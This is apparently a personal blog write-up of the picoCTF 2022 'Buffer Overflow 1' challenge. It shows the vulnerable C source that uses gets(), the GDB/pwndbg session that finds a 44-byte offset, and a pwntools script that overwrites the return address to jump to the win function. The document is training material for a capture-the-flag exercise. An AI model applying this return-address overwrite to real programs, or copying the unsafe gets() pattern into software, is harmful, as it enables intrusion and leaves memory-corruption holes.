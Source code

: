 ```yaml
---

title: "Buffer Overflow 1"
date: 2023-08-22T19:48:58+08:00
author: John Wu
summary: "PicoCTF 2022's buffer overflow 1 writeup"
ShowToc: true
draft: true

---
```


## Given Stuff

Problem:

Control the return address. Additional details will be available after launching your challenge instance.

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.


```c
// vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`vuln`

## Tools
- GDB/pwndbg
- python3
- pwntools
- System: Linux 6.4.11-arch2-1 #1 SMP PREEMPT_DYNAMIC x86_64 GNU/Linux

## Analysis
Make the `vuln` file executable first: `chmod +x vuln`.
Open the project in GDB for analyzing: `gdb vuln`.
From the source code, we see that there is a function `win` that is never called by `main` or `vuln`.
However, because it is still in the code and for the sake of the challenge, the program will still load `win` onto the stack.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So, find the location of `win`.

```
pwndbg> info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x080491f6  win
pwndbg>
```

So `win` is located at 0x080491f6, and since this is a buffer overflow problem, we just have to set $eip to 0x080491f6.

The vulnerability in the code is in the function `vuln`, because of the use of `gets()`.
So lets find out the buffer size in order to overflow the stack.

```
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
pwndbg> r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
 ECX  0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd4e0 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c

pwndbg>
```

`cyclic` from pwntools is available in pwndbg.
It basically creates a recognizable pattern that we can use to find where in the stack a 4 byte pattern exists.

[more resources](https://en.wikipedia.org/wiki/De_Bruijn_sequence), [and more](https://ir0nstone.gitbook.io/notes/types/stack/de-bruijn-sequences)

`r <<< <de-bruijn-sequences>` just means `run` the program, and input the de-bruijn-sequence.
The register $eip is now laaa, so we just have to find the offset of "laaa" to find how many bytes we need to overflow the eip.

```
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
pwndbg>
```

The pattern is at offset 44, so we can just append where `win` is in memory after 44 bytes which we know is at 0x080491f6.
So to put that into a python script with pwntools:
```python
# solve.py
from pwn import *

payload = b"A" * 44 + p32(0x80491f6)
target = remote('saturn.picoctf.net', 61303)

log.info(target.recvline())
target.sendline(payload)
log.info(target.recvall())

target.close()
```

Note that we can't send the raw 0x80491f6 because it's not in little endian, so we have to use the `p32()` function [docs](https://docs.pwntools.com/en/stable/util/packing.html)
We also can't send in the raw "A" because thats also not a byte, so we have to prepend `b""` to it, which in python means "turn it into bytes."

We can check locally by sending this into GDB:

```sh
pwndbg> r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{flag}

Program received signal SIGSEGV, Segmentation fault.
```
